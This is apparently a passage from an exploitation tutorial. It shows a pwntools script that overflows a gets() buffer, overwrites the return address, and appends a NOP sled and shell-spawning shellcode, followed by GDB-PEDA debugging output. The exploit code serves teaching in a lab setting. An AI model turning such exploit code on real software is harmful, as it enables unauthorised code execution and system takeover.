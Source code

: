 ```python
payload += ret_offset * b"A"

# Overwrite ret_address, taking endianness into account
payload += pack(ret_address)

# Add nopsled
nops = asm("nop")*100

payload += nops

# Assemble a shellcode from 'shellcraft' and append to payload
shellcode = asm(shellcraft.sh())
payload += shellcode

# Attach to process
gdb.attach(p)

# Wait for breakpoints, commands etc.
raw_input("Send payload?")

# Send payload
p.sendline(payload)

# Enjoy shell :-)
p.interactive()
```

Notice the `gdb.attach(p)` and raw_input lines.
The former will open a new terminal window with GDB already attached.
All of your GDB configurations will be used, so this works with PEDA as well.
Let's set a breakpoint at the `ret` instruction from the main function:

```gdb
gdb-peda$ pdis main
Dump of assembler code for function main:
   0x08048440 <+0>:	push   ebp
   0x08048441 <+1>:	mov    ebp,esp
   0x08048443 <+3>:	sub    esp,0x40
   0x08048446 <+6>:	lea    ebx,[ebp-0x40]
   0x08048449 <+9>:	push   ebx
   0x0804844a <+10>:	push   0x804a020
   0x0804844f <+15>:	call   0x8048300 <printf@plt>
   0x08048454 <+20>:	push   ebx
   0x08048455 <+21>:	call   0x8048310 <gets@plt>
   0x0804845a <+26>:	add    esp,0x4
   0x0804845d <+29>:	leave
   0x0804845e <+30>:	ret
   0x0804845f <+31>:	nop
End of assembler dump.
gdb-peda$ b *0x0804845e
Breakpoint 1 at 0x804845e
gdb-peda$ c
Continuing.
```
